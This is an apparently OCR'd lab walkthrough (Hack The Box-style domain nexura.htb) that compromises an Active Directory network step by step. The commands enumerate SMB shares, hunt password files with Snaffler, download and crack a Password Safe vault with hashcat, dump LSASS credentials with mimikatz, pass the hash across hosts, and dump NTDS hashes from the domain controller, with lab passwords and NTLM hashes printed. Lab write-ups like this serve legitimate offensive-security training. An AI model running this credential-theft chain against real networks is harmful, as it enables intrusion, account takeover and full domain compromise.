 ## Share Hunting (Snaffler) → Vault Pull
### Enumerate shares
```bash
nxc smb hosts -u hwilliam -p 'dealer-screwed-gym1' --shares
# FILE01 exposes HR/PRIVATE/TRANSFER (interesting)
```
### Run Snaffler from JUMP01
Copy Snaffler into the shared `linux` drive, then on JUMP01:
```cmd
C:\Users\hwilliam\Desktop>Snaffler.exe -u -s -n FILE01.nexura.htb
```
Look for **Password Managers**, keywords like **pass**; note `.psafe3` hits.

### Pull the vault via SMB
```bash
smbclient -U nexura.htb\\hwilliam '\\172.16.119.10\HR' -c 'cd Archive; get Employee-Passwords_OLD.psafe3'
```
Crack the Password Safe v3 vault:
```bash
# Mode 5200 = Password Safe v3
hashcat -m 5200 Employee-Passwords_OLD.psafe3 /usr/share/wordlists/rockyou.txt.gz
# Expect: michaeljackson
```
Open the vault on FILE01 or offline to extract creds, e.g.:
- `bdavid:caramel-cigars-reply1`
- `stom:fails-nibble-disturb4` 

---

## Priv Esc via Admin Session → LSASS Dump
### Check admin access
```bash
nxc winrm hosts -u bdavid -p 'caramel-cigars-reply1'
nxc rdp 172.16.119.7 -u bdavid -p 'caramel-cigars-reply1'
# Expect admin on JUMP01
```
### Mimikatz on JUMP01
Copy `mimikatz.exe` via the `linux` drive; run elevated CMD:
```cmd
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```
Extract **NTLM** for `stom` (e.g., `21ea958524cfd9a7791737f8d2f764fa`).

---

## DC Compromise (Pass-the-Hash, NTDS)
### Spray the NTLM hash
```bash
nxc smb hosts -u stom -H 21ea958524cfd9a7791737f8d2f764fa
# Should pwn FILE01 and DC01
```
### NTDS dump on DC01
```bash
nxc smb 172.16.119.11 -u stom -H 21ea958524cfd9a7791737f8d2f764fa \
  --ntds --user Administrator
# Look for Administrator NT hash (e.g., 36e09e1e6ade94d63fbcab5e5b8d6d23)
```
Mission complete.

---